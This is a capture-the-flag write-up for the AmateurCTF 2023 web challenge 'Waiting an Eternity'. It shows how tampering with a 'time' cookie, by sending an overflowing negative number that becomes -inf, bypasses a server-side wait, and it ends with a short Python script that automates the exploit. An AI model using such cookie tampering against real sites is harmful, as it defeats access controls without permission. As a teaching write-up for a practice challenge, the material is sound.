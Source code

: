 ```yaml
---
title: AmateurCTF '23 - Web - Waiting an Eternity
date: '2023-07-18'
tags: ['ctf', 'web', 'amateurctf', 'amateurctf23', 'writeup', 'integer-overflow', 'flask']
draft: false
summary: Utilizing integer overflow in the cookie to make the web-app wait for -inf time.
---
```


## Challenge Description

My friend sent me this website and said that if I wait long enough, I could get and flag! Not that I need a flag or anything, but I've been waiting a couple days and it's still asking me to wait. I'm getting a little impatient, could you help me get the flag?

Author: voxal

Connection info: [waiting-an-eternity.amt.rs](https://waiting-an-eternity.amt.rs)

## Solution

Firstly, I opened up the provided link directly in the browser

![chal](/static/writeups/amateurctf2023/web/et-1.png)

Next, we'll analyze the request and it's response in `Burp's` repeater

![chal](/static/writeups/amateurctf2023/web/et-2.png)

We can see that a `url` is being set to `/secret-site?secretcode=5770011ff65738feaf0c1d009caffb035651bb8a7e16799a433a301c0756003a` and another header `Refresh` is being used to a _fairly_ large number. On visting the page:

![chal](/static/writeups/amateurctf2023/web/et-3.png)

Weird. Analyzing this request's response in repeater:

![chal](/static/writeups/amateurctf2023/web/et-4.png)

We can see that a `Cookie` is being set `time`. We can see that the time is being set to `EPOCH` standard time. Let's try passing -1 as the value of the cookie:

![chal](/static/writeups/amateurctf2023/web/et-5.png)

Okay, we can see that page prints the epoch value. Let's try and overflow it and see what happens:

`Cookie: time=100000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`

![chal](/static/writeups/amateurctf2023/web/et-6.png)

Well, adding more and more zero's until we get `inf`

`Cookie: time=1000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000`

![chal](/static/writeups/amateurctf2023/web/et-7.png)

This worked. Let's try and convert this number to a negative number and hope we get the flag

![chal](/static/writeups/amateurctf2023/web/et-8.png)

And we get the flag!.

---

However, knowing me; do you think I'd let this go without an automated `get_flag.py` script?

```python
import requests

url = "https://waiting-an-eternity.amt.rs"

print("[+] Getting the redirected url with secretcode:")
r = requests.get(url)
_dir = r.headers['Refresh'].split(';')[1][5:]
print(f"[*] Got path: {_dir}")
print(f"[*] Getting the flag: ", end='')
cookies = {
	'time' : '-1' + '0' * 330
}
r = requests.get(url + _dir, cookies=cookies)
print(r.text)
```

and; in the output, we get the flag

![chal](/static/writeups/amateurctf2023/web/et-9.png)
